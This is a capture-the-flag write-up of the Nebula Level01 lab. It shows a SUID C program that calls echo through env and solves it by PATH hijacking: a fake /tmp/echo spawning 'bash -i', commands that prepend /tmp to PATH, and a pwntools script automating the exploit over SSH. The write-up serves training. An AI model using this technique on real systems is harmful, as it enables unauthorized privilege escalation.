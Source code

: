 # Level01

#### Description

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the **level01** account with the password **level01**. Files for this level can be found in /home/flag01.

#### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

***

#### Solution

First of all let's switch on to the directory where those files were present.

```bash
level01@nebula:~$ cd /home/flag01
level01@nebula:/home/flag01$ ls -la
total 13
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
-rw-r--r-- 1 flag01 flag01   675 2011-05-18 02:54 .profile
```

`flag01` is the binary on which SUID bit has set.

Checking source code revealed a vulnerability - PATH hijacking.

```bash
system("/usr/bin/env echo and now what?");
```

Binary is not using absolute path for `echo` command and it can be exploitable by making our own `echo` binary somewhere else and add that directory path to PATH environment.

Make a new echo binary in `/tmp` folder and give it executable permission.

```bash
level01@nebula:/home/flag01$ cd /tmp
level01@nebula:/tmp$ echo -e '#!/bin/bash\nbash -i' > echo
level01@nebula:/tmp$ ls
echo  VMwareDnD  vmware-root
level01@nebula:/tmp$ chmod +x echo
```

Add `/tmp` directory path to PATH environment variable.

```bash
level01@nebula:/tmp$ export PATH=/tmp:$PATH
level01@nebula:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

This will call that echo binary we created in `/tmp` folder instead of the original one.

```bash
level01@nebula:/tmp$ /home/flag01/flag01
flag01@nebula:/tmp$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
flag01@nebula:/tmp$ getflag
You have successfully executed getflag on a target account
```

Successfully got flag01 user's account shell and completed this level.

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level01', password='level01')

# start a remote shell
terminal = session.shell()

# Creating a fake echo binary on /tmp directory
binary_creation_cmd = "echo -e '#!/bin/bash\nbash -i' > /tmp/echo"
terminal.sendline(binary_creation_cmd)
terminal.sendline("chmod +x /tmp/echo")
print("Successfully created fake /tmp/echo binary")

# Exporting /tmp directory to PATH environment variable
terminal.sendline("export PATH=/tmp:$PATH")

# Executing target binary
terminal.sendline('/home/flag01/flag01')
terminal.sendline("getflag")

terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

***
